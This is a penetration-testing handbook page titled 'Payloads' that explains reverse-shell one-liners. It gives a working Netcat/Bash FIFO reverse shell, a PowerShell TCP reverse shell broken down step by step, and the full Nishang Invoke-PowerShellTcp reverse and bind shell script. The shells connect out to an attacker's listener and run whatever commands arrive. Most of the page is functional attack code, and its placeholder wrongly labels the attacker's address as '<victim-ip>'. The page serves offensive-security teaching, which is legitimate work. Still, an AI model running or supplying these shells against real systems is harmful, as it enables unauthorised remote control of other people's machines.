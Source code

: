 ```yaml
---
title: "Payloads"
type: handbook
weight: 2
---
```


### One-Liners Examined

#### Netcat/Bash Reverse Shell One-liner

```bash
rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc <victim-ip> <port> > /tmp/f
```

* Remove `rm -f /tmp/f` - Removes the /tmp/f file if it exists, -f causes rm to ignore nonexistent files. The semi-colon (;) is used to execute the command sequentially.
* Make A Named Pipe `mkfifo /tmp/f;` - Makes a FIFO named pipe file at the location specified. In this case, /tmp/f is the FIFO named pipe file, the semi-colon (;) is used to execute the command sequentially.
* Output Redirection `cat /tmp/f |` - Concatenates the FIFO named pipe file /tmp/f, the pipe (|) connects the standard output of cat /tmp/f to the standard input of the command that comes after the pipe (|).
* Set Shell Options `/bin/bash -i 2>&1 |` - Specifies the command language interpreter using the -i option to ensure the shell is interactive. 2>&1 ensures the standard error data stream (2) & standard output data stream (1) are redirected to the command following the pipe (|).
* Open a Connection with Netcat `nc <victim-ip> <port> > /tmp/f` - Uses Netcat to send a connection to our attack host 10.10.14.12 listening on port 7777. The output will be redirected (>) to /tmp/f, serving the Bash shell to our waiting Netcat listener when the reverse shell one-liner command is executed.

### PowerShell One-liner Explained

#### Powershell One-liner

```bash
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('<victim-ip>',<port>);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

* Calling PowerShell `powershell -nop -c` - Executes powershell.exe with no profile (nop) and executes the command/script block (-c) contained in the quotes. This particular command is issued inside of command-prompt, which is why PowerShell is at the beginning of the command. 
* Binding A Socket `"$client = New-Object System.Net.Sockets.TCPClient(<victim-ip>,<port>);` - Sets/evaluates the variable $client equal to (=) the New-Object cmdlet, which creates an instance of the System.Net.Sockets.TCPClient .NET framework object. The .NET framework object will connect with the TCP socket listed in the parentheses (`<victim-ip>,<port>`). The semi-colon (;) ensures the commands & code are executed sequentially.
* Setting The Command Stream `$stream = $client.GetStream();` - Sets/evaluates the variable $stream equal to (=) the $client variable and the .NET framework method called GetStream that facilitates network communications. The semi-colon (;) ensures the commands & code are executed sequentially.
* Empty Byte Stream `[byte[]]$bytes = 0..65535|%{0};` - Creates a byte type array ([]) called $bytes that returns 65,535 zeros as the values in the array. This is essentially an empty byte stream that will be directed to the TCP listener on an attack box awaiting a connection.
* Stream Parameters `while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0)` - Starts a while loop containing the $i variable set equal to (=) the .NET framework Stream.Read ($stream.Read) method. The parameters: buffer ($bytes), offset (0), and count ($bytes.Length) are defined inside the parentheses of the method.
* Set The Byte Encoding `{;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes, 0, $i);` - Sets/evaluates the variable $data equal to (=) an ASCII encoding .NET framework class that will be used in conjunction with the GetString method to encode the byte stream ($bytes) into ASCII. In short, what we type won't just be transmitted and received as empty bits but will be encoded as ASCII text. The semi-colon (;) ensures the commands & code are executed sequentially.
* Invoke-Expression `$sendback = (iex $data 2>&1 | Out-String );` - Sets/evaluates the variable $sendback equal to (=) the Invoke-Expression (iex) cmdlet against the $data variable, then redirects the standard error (2>) & standard output (1) through a pipe (|) to the Out-String cmdlet which converts input objects into strings. Because Invoke-Expression is used, everything stored in $data will be run on the local computer. The semi-colon (;) ensures the commands & code are executed sequentially.
* Show Working Directory `$sendback2 = $sendback + 'PS ' + (pwd).path + '> ';` - Sets/evaluates the variable $sendback2 equal to (=) the $sendback variable plus (+) the string PS ('PS') plus + path to the working directory ((pwd).path) plus (+) the string '> '. This will result in the shell prompt being PS C:\workingdirectoryofmachine >. The semi-colon (;) ensures the commands & code are executed sequentially. Recall that the + operator in programming combines strings when numerical values aren't in use, with the exception of certain languages like C and C++ where a function would be needed.
* Sets Sendbyte `$sendbyte=  ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()}` - Sets/evaluates the variable $sendbyte equal to (=) the ASCII encoded byte stream that will use a TCP client to initiate a PowerShell session with a Netcat listener running on the attack box.
* Terminate TCP Connection `$client.Close()"` - This is the TcpClient.Close method that will be used when the connection is terminated.

```powershell
function Invoke-PowerShellTcp 
{ 
<#
.SYNOPSIS
Nishang script which can be used for Reverse or Bind interactive PowerShell from a target. 
.DESCRIPTION
This script is able to connect to a standard Netcat listening on a port when using the -Reverse switch. 
Also, a standard Netcat can connect to this script Bind to a specific port.
The script is derived from Powerfun written by Ben Turner & Dave Hardy
.PARAMETER IPAddress
The IP address to connect to when using the -Reverse switch.
.PARAMETER Port
The port to connect to when using the -Reverse switch. When using -Bind it is the port on which this script listens.
.EXAMPLE
PS > Invoke-PowerShellTcp -Reverse -IPAddress 192.168.254.226 -Port 4444
Above shows an example of an interactive PowerShell reverse connect shell. A netcat/powercat listener must be listening on 
the given IP and port. 
.EXAMPLE
PS > Invoke-PowerShellTcp -Bind -Port 4444
Above shows an example of an interactive PowerShell bind connect shell. Use a netcat/powercat to connect to this port. 
.EXAMPLE
PS > Invoke-PowerShellTcp -Reverse -IPAddress fe80::20c:29ff:fe9d:b983 -Port 4444
Above shows an example of an interactive PowerShell reverse connect shell over IPv6. A netcat/powercat listener must be
listening on the given IP and port. 
.LINK
http://www.labofapenetrationtester.com/2015/05/week-of-powershell-shells-day-1.html
https://github.com/nettitude/powershell/blob/master/powerfun.ps1
https://github.com/samratashok/nishang
#>      
    [CmdletBinding(DefaultParameterSetName="reverse")] Param(

        [Parameter(Position = 0, Mandatory = $true, ParameterSetName="reverse")]
        [Parameter(Position = 0, Mandatory = $false, ParameterSetName="bind")]
        [String]
        $IPAddress,

        [Parameter(Position = 1, Mandatory = $true, ParameterSetName="reverse")]
        [Parameter(Position = 1, Mandatory = $true, ParameterSetName="bind")]
        [Int]
        $Port,

        [Parameter(ParameterSetName="reverse")]
        [Switch]
        $Reverse,

        [Parameter(ParameterSetName="bind")]
        [Switch]
        $Bind

    )

    
    try 
    {
        #Connect back if the reverse switch is used.
        if ($Reverse)
        {
            $client = New-Object System.Net.Sockets.TCPClient($IPAddress,$Port)
        }

        #Bind to the provided port if Bind switch is used.
        if ($Bind)
        {
            $listener = [System.Net.Sockets.TcpListener]$Port
            $listener.start()    
            $client = $listener.AcceptTcpClient()
        } 

        $stream = $client.GetStream()
        [byte[]]$bytes = 0..65535|%{0}

        #Send back current username and computername
        $sendbytes = ([text.encoding]::ASCII).GetBytes("Windows PowerShell running as user " + $env:username + " on " + $env:computername + "`nCopyright (C) 2015 Microsoft Corporation. All rights reserved.`n`n")
        $stream.Write($sendbytes,0,$sendbytes.Length)

        #Show an interactive PowerShell prompt
        $sendbytes = ([text.encoding]::ASCII).GetBytes('PS ' + (Get-Location).Path + '>')
        $stream.Write($sendbytes,0,$sendbytes.Length)

        while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0)
        {
            $EncodedText = New-Object -TypeName System.Text.ASCIIEncoding
            $data = $EncodedText.GetString($bytes,0, $i)
            try
            {
                #Execute the command on the target.
                $sendback = (Invoke-Expression -Command $data 2>&1 | Out-String )
            }
            catch
            {
                Write-Warning "Something went wrong with execution of command on the target." 
                Write-Error $_
            }
            $sendback2  = $sendback + 'PS ' + (Get-Location).Path + '> '
            $x = ($error[0] | Out-String)
            $error.clear()
            $sendback2 = $sendback2 + $x

            #Return the results
            $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2)
            $stream.Write($sendbyte,0,$sendbyte.Length)
            $stream.Flush()  
        }
        $client.Close()
        if ($listener)
        {
            $listener.Stop()
        }
    }
    catch
    {
        Write-Warning "Something went wrong! Check if the server is reachable and you are using the correct port." 
        Write-Error $_
    }
}
```

